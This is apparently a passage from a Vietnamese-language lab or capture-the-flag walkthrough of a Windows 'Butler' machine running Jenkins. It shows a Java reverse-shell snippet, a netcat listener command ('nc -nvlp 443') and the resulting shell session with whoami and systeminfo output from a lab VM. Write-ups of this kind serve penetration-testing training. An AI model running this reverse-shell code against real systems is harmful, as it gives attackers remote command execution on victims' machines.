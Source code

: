 Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

Trên máy tấn công bật nc trước:

nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.44.128] from (UNKNOWN) [192.168.44.145] 50064

Microsoft Windows [Version 10.0.19043.928]

(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami

whoami

butler\butler

C:\Program Files\Jenkins>systeminfo

systeminfo

Host Name:                 BUTLER

OS Name:                   Microsoft Windows 10 Enterprise Evaluation

OS Version:                10.0.19043 N/A Build 19043

OS Manufacturer:           Microsoft Corporation

OS Configuration:          Standalone Workstation

OS Build Type:             Multiprocessor Free

Registered Owner:          butler

Registered Organization:

Product ID:                00329-20000-00001-AA079

Original Install Date:     8/14/2021, 3:51:38 AM

System Boot Time:          8/3/2022, 9:37:43 PM

System Manufacturer:       VMware, Inc.

System Model:              VMware7,1

System Type:               x64-based PC

Processor(s):              3 Processor(s) Installed.

[01]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz

[02]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz

[03]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz

BIOS Version:              VMware, Inc. VMW71.00V.18452719.B64.2108091906, 8/9/2021

Windows Directory:         C:\Windows


[01]: KB4601554
[02]: KB5013887
[03]: KB5000736
[04]: KB5015807
[05]: KB5014671
[06]: KB5001405
[01]: Intel(R) 82574L Gigabit Network Connection
[01]: 192.168.44.145
[02]: fe80::d84f:eb80:5807:1704